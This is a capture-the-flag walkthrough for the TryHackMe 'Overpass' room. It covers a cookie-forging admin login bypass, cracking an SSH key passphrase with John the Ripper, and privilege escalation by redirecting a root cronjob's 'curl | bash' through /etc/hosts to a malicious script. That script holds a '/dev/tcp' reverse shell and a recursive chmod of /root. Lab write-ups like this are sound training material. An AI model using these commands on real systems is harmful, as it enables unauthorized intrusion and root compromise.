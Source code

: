 # Overpass

Link: [Overpass](https://tryhackme.com/room/overpass)

## High-Level Overview

Exploit the vulnerable machine to get the `user.txt` and `root.txt` flags. The machine is running a password manager made by a few computer sciences students.

## Tools Needed

* Nmap
* Gobuster
* John the Ripper
* LinPeas

## Walkthrough

Initial scan with `nmap`

```bash
$ sudo nmap -T5 -vvv -sS -A -Pn -oN nmap-scan -p- MACHINE:IP
```

We can see there are two ports open:

* port 22 - running SSH
* port 80 - running HTTP

In the source code of the home page we can see a comment that suggests that the encryption is advertised as military grade, however someone commented to say that's not really the case, while also pointing out that it's something the Romans used.

On the web application, we can see that the source code is also listed for download at `http://MACHINE:IP/downloads/`

Searching for other interesting pages on the web application by enumerating using `gobuster`

```bash
$ gobuster dir -k -u MACHINE:IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

We have found an admin login page:

* `http://MACHINE:IP/admin`

If we inspect the source of this page we can see a `login.js` file that has some vulnerable javascript code inside. The last part of the code is vulnerable:

```js
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

The `SessionToken` cookie will be created when the admin credentials are correct.

We can open the browser dev tools using F12 and go to `Storage`. We can then go to the cookies section and select our host `MACHINE:IP`. We can add a new cookie and name it as `SessionToken` and for the path we can rename it to `/`. After doing so and reloading the page we will be logged in as admin.

As the logged in admin, we see that there is a SSH key listed. Apparently it is passphrase protected, but maybe we can have a crack at it.

Making a file `id_rsa` where we paste the private key and then we need to change permissions for it. We will then use the `ssh2john` to convert the private key into a format John the Ripper can crack. Finally, we let John the Ripper try to brute-force the passphrase using the `rockyou.txt` wordlist.

```bash
$ touch id_rsa
$ chmod 600 id_rsa
$ ssh2john id_rsa > id_rsa.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa
```

We now have the passphrase for the SSH key, which is `james13`.

From the admin login page we also know that this is the SSH key for the user James. With all the SSH login credentials at our disposal, it is time to exploit SSH.

```bash
$ ssh -i id_rsa james@MACHINE:IP
```

We can find the first flag in `james`'s home directory under `user.txt`

Now in order to get the root flag, we need to see how we can escalate privileges.

Seems like the root password might be stored using the overpass password manager

We can use `linpeas.sh` in order to recon. Download linpeas and start a http server where the script is located

```bash
$ chmod +x linpeas.sh
$ python3 -m http.server 8000
```

On the Overpass machine run the following

```bash
$ wget VPN:IP/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

We can see there is a cronjob running as root that is trying to download a script from `overpass.thm` using `curl` then run it.

```bash
╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs
/usr/bin/crontab
incrontab Not Found
-rw-r--r-- 1 root root     822 Jun 27  2020 /etc/crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

...

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Additionally, it seems that `james` has permission to write the file `/etc/hosts`

```bash
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/etc/hosts
```

Knowing this we can trick it into downloading a malicious script using the same name, by changing the `/etc/hosts` file.

```bash
$ nano /etc/hosts
# change your VPN:IP to be resolved for the domain overpass.thm
```

Create a folder in your `/` directory in order to mimic the same directory structure as present in the `cronjob`.

```bash
$ cd /
$ sudo mkdir -p downloads/src
$ sudo cd downloads/src
$ sudo touch buildscript.sh
$ sudo chmod +x buildscript.sh
$ sudo nano buildscript.sh
```

Having the file present, now we need to put in a malicious script that will allow us to get root. We can use something like

```bash
chmod -R 777 /root/;
bash -i >& /dev/tcp/VP:IP/1234 0>&1;
# replace VPN:IP and 1234 with your VPN:IP and desired port
```

Start a nc listener on your attacking machine to get the reverse shell.

```bash
$ rlwrap nc -lvnp 1234
```

Start a python3 http server in the folder where the `buildscript.sh` file is located to serve the file to the vulnerable machine

```bash
$ cd /downloads/src
$ sudo sudo python3 -m http.server 80
```

After waiting a few seconds, we should be connected as root and also root is available to all users on the machine. The `root.txt` flag is located in the home directory of `root`.
